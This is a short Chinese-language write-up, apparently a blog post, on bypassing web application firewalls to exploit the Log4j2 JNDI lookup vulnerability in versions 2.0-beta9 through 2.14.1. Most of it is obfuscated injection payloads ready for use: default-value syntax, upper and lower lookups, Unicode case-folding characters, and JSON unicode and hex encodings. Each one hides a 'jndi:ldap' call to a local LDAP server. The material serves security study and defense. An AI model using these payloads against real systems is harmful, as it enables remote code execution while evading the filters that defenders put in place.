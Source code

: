 
##  0x00 原理介绍
     
         去年有个项目，有WAF，然后进行了绕过，成功反弹，现在在回忆记录一下。
     
     log4j2输出日志的时候除了常见的变量替换，还支持远程获取相应的内容，获取远程内容是通过lookup功能提供，
     
     ## 变量替换如下
     
     logger.info("user name: {}, alias name: {}", userName, aliasName)
     
     获取远程内容支持jndi
     
## WAF绕过总结

         从log4j-2.15.0-rc2开始，默认关闭了Lookups功能，需要修改配置才能结合各种绕过方式，所以意义不大，2.16.0开始，移除了Lookups功能，然后在受影响版本log4j2.0-beta9 <= 版本 log4j <= 2.14.1中，由于waf多拦截jndi等关键字，可通过如下几种方式进行绕过。
         
         :- 是一个赋值关键字，如果程序处理到 ${aaaa:-bbbb} 这样的字符串，处理的结果将会是 bbbb，借助此特性，可构造如下waf绕过，
   logg.info("${${::-J}ndi:ldap://127.0.0.1:1389/Calc}");
      Lookups中除了jndi还存在Upper、Lower等方式，可变换大小写，可构造如下waf绕过
logg.info("${${lower:J}ndi:ldap://127.0.0.1:1389/Calc}");
logg.info("${${upper:j}ndi:ldap://127.0.0.1:1389/Calc}");


同时也可以利用一些特殊字符的大小写转化的问题
ı => upper => i (Java 中测试可行)
ſ => upper => S (Java 中测试可行)
İ => upper => i (Java 中测试不可行)
K => upper => k (Java 中测试不可行)
logg.error("${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}");


现在数据传输很多都是 json 形式，所以在 json 中我们也可以进行尝试
像 Jackson 和 fastjson 又有 unicode 和 hex 的编码特性，所以就可以尝试编码绕过
{"key":"\u0024\u007b"}
{"key":"\x24\u007b"}

